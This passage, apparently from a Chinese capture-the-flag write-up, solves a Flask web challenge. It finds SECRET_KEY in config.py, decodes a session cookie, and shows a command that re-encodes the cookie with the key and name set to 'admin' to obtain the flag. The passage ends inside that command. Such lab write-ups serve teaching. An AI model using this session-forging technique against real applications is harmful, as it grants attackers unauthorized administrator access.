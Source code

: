 在`config.py`里面带有`SECRET_KEY`

![在这里插入图片描述](CTF.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTY0MjYxMA==,size_16,color_FFFFFF,t_70.png)

在`index.html`里面有着返回flag的条件

![在这里插入图片描述](CTF.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTY0MjYxMA==,size_16,color_FFFFFF,t_70-17003178622923.png)

### 2. 复现

知道了`SECRET_KEY`就可以伪造Session了，将原来的cookie做解密得到：

`{'_fresh': True, '_id': b'7be77543f7fdd4412dc2bc1d9ae48d46b5af748eaf447a41d456c58a0281e6162f406b1b8a3f4fc528d327229117a39f2c331718c6e06229090558c5a8eabf27', 'csrf_token': b'512005a06dc2271f47a99391e9cc02e759062f10', 'image': b'j01X', 'name': 'test', 'user_id': '10'}`

![image-20231118223221319](CTF.assets/image-20231118223221319.png)

在`index.html`中可以看到，只要session中的`name`值为`admin`就返回flag！所以把用户改为`admin`即可

```bash
┌──(kali㉿kali)-[~/ctfTool/web/flask-session-cookie-manager]
└─$ python flask_session_cookie_manager3.py encode -s 'ckj123' -t "{'_fresh': True, '_id': b'7be77543f7fdd4412dc2bc1d9ae48d46b5af748eaf447a41d456c58a0281e6162f406b1b8a3f4fc528d327229117a39f2c331718c6e06229090558c5a8eabf27', 'csrf_token': b'512005a06dc2271f47a99391e9cc02e759062f10', 'image': b'j01X', 'name': 'admin', 'user_id': '10'}" 
